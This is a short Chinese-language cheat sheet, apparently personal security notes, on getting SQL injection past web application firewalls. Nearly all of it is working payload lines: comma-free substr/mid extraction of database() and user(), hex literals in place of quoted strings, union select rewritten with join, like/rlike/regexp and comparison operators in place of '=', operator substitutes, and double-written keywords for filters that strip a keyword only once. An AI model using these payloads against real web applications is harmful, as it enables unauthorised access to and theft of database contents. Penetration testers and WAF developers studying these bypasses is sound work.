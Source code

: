 当waf过滤逗号时

　　substr截取字符串

select * from users where id=1 and 'm'=(select(substr(database() from 1 for 1)));

可以进一步优化 m 换成 hex 0x6D 这样就避免了单引号

select * from users where id=1 and 0x6D=(select(substr(database() from 1 for 1)));

　　min截取字符串

select mid(database() from 1 for 1); 这个方法如上。

　　join绕过

union select 1,2 #等价于 union select * from (select 1)a join (select 2)b

a 和 b 分别是表的别名

　　like绕过

select user() like '%r%';

　　limit offset绕过

 

or and xor not 绕过

and 等于&&

or 等于 ||

not 等于 !

xor 等于|

 

等号绕过

如果程序会对=进行拦截 可以使用 like rlike regexp 或者使用<或者>

select * from users where id=1 and ascii(substring(user(),1,1))<115;

select * from users where id=1 and ascii(substring(user(),1,1))>115;

select * from users where id=1 and (select substring(user(),1,1)like 'r%');

select * from users where id=1 and (select substring(user(),1,1)rlike 'r');

select * from users where id=1 and 1=(select user() regexp '^r');

select * from users where id=1 and 1=(select user() regexp '^a');

 

双写绕过

有的waf会转空关键词

但只会转一次

因此写两次就行了

UNunionIONSEselectECT
